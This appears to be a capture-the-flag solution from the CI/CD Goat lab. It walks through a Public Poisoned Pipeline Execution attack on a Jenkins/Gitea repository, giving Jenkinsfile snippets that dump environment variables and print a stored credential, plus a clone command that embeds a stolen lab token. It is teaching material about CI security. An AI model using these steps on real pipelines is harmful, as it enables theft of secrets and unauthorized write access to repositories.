

[-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Create a pull request originated from a fork and execute a [Public-PPE (3PE)](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/Caterpillar_ repository to elevate your privileges and steal the _flag2_ secret.

1. Fork the _Wonderland/Caterpillar_ repository.
2. Modify the Jenkinsfile in the fork to print the environment variables into the console output, or send it to a server you control.

    ```groovy
    stage ('Install_Requirements') {
        steps {
            sh '''
                env
            '''
        }
    }
    ```

3. Create a pull request based on the fork into the main branch of the original repository. The _wonderland-caterpillar-test_ Jenkins pipeline, originally intended to run tests against the repository code, will be executed.
4. Access the console output of the executed job to get the _gitea_token_. This token has Write permission on the repository, which effectively allows you to elevate your privileges against the repo.
5. Clone the repository using the token.

    ```shell
    git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@localhost:3000/Wonderland/caterpillar.git
    ```

6. Modify the Jenkinsfile to load the _flag2_ secret as an environment variable and print it to the console output (or to send it to a remote host).

    ```groovy
    stage('deploy') {
        steps {
            withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
                sh 'echo $TOKEN | base64'
            }
        }
    }
    ```

7. Push the modified Jenkinsfile to the main branch in the repository. The _wonderland-caterpillar-prod_ pipeline will be triggered automatically.
8. Access the console output of the executed job to get the encoded secret.

